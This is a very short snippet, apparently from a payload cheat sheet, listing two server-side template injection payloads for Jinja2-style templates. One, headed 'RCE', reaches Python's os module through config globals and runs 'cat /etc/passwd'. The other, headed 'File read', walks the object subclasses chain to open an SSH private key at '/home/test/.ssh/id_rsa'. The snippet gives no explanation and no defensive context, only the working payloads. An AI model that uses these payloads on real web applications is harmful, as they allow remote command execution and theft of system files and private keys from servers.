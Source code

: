 # RCE
{{config.__class__.__init__.__globals__['os'].popen('cat /etc/passwd').read()}}

# File read
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/home/test/.ssh/id_rsa').read() }}
